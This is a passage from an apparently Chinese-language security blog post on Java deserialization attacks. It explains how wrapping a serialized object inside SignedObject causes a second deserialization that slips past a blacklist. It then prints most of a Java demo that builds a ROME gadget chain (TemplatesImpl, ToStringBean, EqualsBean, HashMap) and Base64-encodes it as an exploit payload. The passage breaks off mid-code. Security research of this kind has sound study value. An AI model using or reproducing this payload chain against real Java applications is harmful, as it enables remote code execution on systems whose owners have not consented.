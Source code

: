 而this.content由其构造函数传入  
[![](assets/1701071934-3636a0b878c5b2348ee37350e765cd31.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223518-b0aa5bd4-8ad6-1.png)  
再反序列化入口有黑名单时，可以将序列化对象最为参数传入SignedObject的构造函数中，触发SignedObject的getObject方法，造成二次反序列化进行绕过  
demo:

```plain
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;

public class rome4 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);

        SignedObject s = makeSignedObject(hashmap);

        // 二次反序列化
        ToStringBean toStringBean2 = new ToStringBean(SignedObject.class, "s");
        EqualsBean equalsBean2 = new EqualsBean(ToStringBean.class, toStringBean2);
        HashMap hashmap2 = new HashMap();
        hashmap2.put(equalsBean2, "1");
        util.setFieldValue(toStringBean2,"_obj",s);

        byte[] ser = util.serialize(hashmap2);
        String exp = Base64.getEncoder().encodeToString(ser);
```